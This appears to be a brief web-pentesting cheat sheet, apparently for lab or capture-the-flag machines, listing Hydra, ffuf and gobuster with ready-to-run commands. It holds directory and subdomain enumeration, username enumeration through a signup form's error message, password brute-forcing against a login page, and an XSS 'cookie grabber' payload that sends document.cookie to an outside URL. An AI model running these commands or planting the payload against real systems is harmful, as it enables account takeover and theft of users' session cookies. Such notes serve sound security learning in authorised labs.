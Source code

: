 # WEB 

## TOOLS
- **[Hydra](https://www.kali.org/tools/hydra/)** : Logon cracker for many services
- **[ffuf](https://www.kali.org/tools/ffuf/)** : Web Fuzzer
- **[gobuster](https://www.kali.org/tools/gobuster/)** : Web Brute-force tools

## COMMANDS
**Discovery files/folders**  
<pre> gobuster dir -u http://MACHINE_IP/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt` </pre>

**Enumerate on subdomains**  
`ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.DOMAIN" -u http://MACHINE_IP`

**Enumerate on users**  
`ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/signup -mr "username already exists"`

**Bruteforce users**  
<pre> ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200` </pre>

**XSS Cookie Grabber**  
`<script> document.write('<IMG SRC=URL?cookie='+document.cookie+'/>')</script>`
